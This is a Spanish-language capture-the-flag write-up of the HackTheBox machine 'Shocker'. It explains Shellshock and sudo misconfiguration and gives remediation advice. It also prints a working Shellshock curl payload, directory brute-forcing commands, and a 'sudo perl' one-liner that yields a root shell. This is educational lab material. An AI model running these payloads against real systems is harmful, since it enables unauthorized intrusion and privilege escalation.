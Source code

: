 ```yaml
---
layout: single
title:  Shocker
excerpt: "Maquina Shocker de la Plataforma HackTheBox, posee una dificultad facil con una vulnerabilidad bastante conocida que la época en que fue descubierto afectó a millones de servidores. públicos"
date: 2021-07-20
classes: wide
header:
    teaser: /assets/images/que-es-un-socket-y-como-funciona/portada.png
    teaser_home_page: true
categories:
    - WriteUp
tags:
    - Linux
    - HTB
---
```



# Sistema Vulnerable: 10.10.10.56
## Explicacaión de la vulnerabilidad.
Shellshock apareció por primera vez en septiembre de 2014. Hubo informes de ataques a las pocas horas de la divulgación inicial de la vulnerabilidad, y en los días siguientes, hubo millones de ataques y sondeos provenientes de botnets.  
Bash es un shell o intérprete que permite que los comandos se ejecuten en un sistema, generalmente a través de una ventana de texto. Por lo general, es el shell predeterminado en los sistemas Unix, y como tal, se puede encontrar en Linux, macOS y otros varios sabores de Unix. Esta es la razón por la que Shellshock es tan grave: más de la mitad de los servidores web en Internet ejecutan Unix, sin mencionar una gran cantidad de dispositivos IoT e incluso algunos enrutadores/módems.  


Esencialmente, Shellshock funciona al permitir que un atacante agregue comandos a las definiciones de funciones en los valores de las variables de entorno. Esto se clasificaría como un tipo de ataque de inyección de código, y dado que Bash procesará estos comandos después de la definición de la función, se puede ejecutar casi cualquier código arbitrario.  
Shellshock es en realidad una familia completa de vulnerabilidades que consiste en múltiples vectores de explotación.  

[- https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit](https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit)
[- https://en.wikipedia.org/wiki/Shellshock_(software_bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))


## Vulnerabilidad de escalamiento de privilegios:  
sudo es un programa que permite a los usuarios ejecutar otros programas con privilegios de otros usuarios. De forma predeterminada, ese otro usuario será root.
Un usuario generalmente necesita ingresar su contraseña para usar sudo, y se debe permitir el acceso a través de reglas en el archivo **/etc/sudoers**.   
[https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)  

------

## Corrección de la vulnerabilidad:
- Actualize bash a su versión mas reciente de su sistema.  
- Configurar de manera eficaz los permisos que se otorgan a los usuarios del sistema.  

## Gravedad :
Crítica

## Prueba de concepto:
[- https://www.exploit-db.com/exploits/34766](https://www.exploit-db.com/exploits/34766)  
```bash
$ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://10.10.10.56/cgi-bin/user.sh
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

### Enumeración:
Enumeración de puertos TCP
```bash
$ nmap -p- --min-rate 10000 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:29 EDT
Nmap scan report for 10.10.10.56
Host is up (0.025s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

$ nmap -p 80,2222 -sCV -oN targeted 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:30 EDT
Nmap scan report for 10.10.10.56
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds

```

## Pasos para explotar el sistema:
### Punto de apoyo:
<p align="center">
<img src="/assets/images/htb/shocker/1.PNG">
</p>

Fuerza bruta al servidor web.  
```bash
$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.56/FUZZ -c -t 200
                                                                                                                          
        /'___\  /'___\           /'___\                                                                                   
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                   
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                  
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                      
         \ \_\   \ \_\  \ \____/  \ \_\                                                       
          \/_/    \/_/   \/___/    \/_/                                                                                   

       v1.3.0 Kali Exclusive <3
________________________________________________                              
                                                                                              
 :: Method           : GET                                                                    
 :: URL              : http://10.10.10.56/FUZZ                                                                            
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt                           
 :: Follow redirects : false                                                                  
 :: Calibration      : false                                                                  
 :: Timeout          : 10                                                                                                 
 :: Threads          : 200                                                                    
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405                 
________________________________________________                                    
                                                                                              
                        [Status: 200, Size: 137, Words: 9, Lines: 10]                   
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]                                                    
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]                        
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]                        
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]                                                     
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]                                                    
:: Progress: [4615/4615] :: Job [1/1] :: 597 req/sec :: Duration: [0:00:04] :: Errors: 0 ::   

```

<p align="center">
<img src="/assets/images/whtb/shocker/2.PNG">
</p>

Fuerza bruta al sistema web enumerando archivos con extension sh, py,pl,cgi.
```bash
$ gobuster dir -q -e -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,py,pl,cgi -t 200 
http://10.10.10.56/cgi-bin/.htpasswd (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.sh (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.sh (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.py (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.pl (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.cgi (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.py (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.pl (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.cgi (Status: 403)
http://10.10.10.56/cgi-bin/.hta (Status: 403)
http://10.10.10.56/cgi-bin/.hta.sh (Status: 403)
http://10.10.10.56/cgi-bin/.hta.py (Status: 403)
http://10.10.10.56/cgi-bin/.hta.pl (Status: 403)
http://10.10.10.56/cgi-bin/.hta.cgi (Status: 403)
http://10.10.10.56/cgi-bin/user.sh (Status: 200)
```

Visualizando el recurso encontrado.  
```bash
$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 18:20:37 up 22 min,  0 users,  load average: 0.00, 0.00, 0.00
 ```

### Obteniendo shell inversa:
<p align="center">
<img src="/assets/images/htb/shocker/3.PNG">
</p>


### Escalada de privilegios:
```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
# id
id
uid=0(root) gid=0(root) groups=0(root)

```
